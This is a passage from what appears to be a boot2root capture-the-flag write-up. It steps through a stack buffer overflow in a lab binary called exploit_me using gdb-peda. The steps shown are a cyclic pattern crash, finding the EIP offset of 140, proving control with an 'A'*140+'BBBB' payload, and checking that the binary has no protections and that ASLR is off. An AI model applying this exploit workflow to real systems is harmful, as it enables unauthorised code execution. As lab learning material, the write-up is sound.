 ```
0004| 0xffffd434 ("AASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0xffffd438 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0012| 0xffffd43c ("TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0xffffd440 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0020| 0xffffd444 ("ArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0xffffd448 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0028| 0xffffd44c ("AAWAAuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41416d41 in ?? ()
```

We have an overflow, find the offset to overwrite EIP

```
(gdb-peda)$ pattern search
Registers contain pattern buffer:
...
EIP+0 found at offset: 140
...
```

The offset to overflow is 140, try it

```
(gdb-peda)$ r $(python2 -c 'print "A"*140+"BBBB"')
Starting program: /home/nico/42/boot2root/zaz/exploit_me $(python2 -c 'print "A"*140+"BBBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
...
EIP: 0x42424242 ('BBBB')
....
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

Yes!

Verify the protections

```
$ checksec --file=exploit_me 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   66) Symbols	  No	0		1		exploit_me
```

No protections, now check ASLR

```
$ cat /proc/sys/kernel/randomize_va_space
0
```
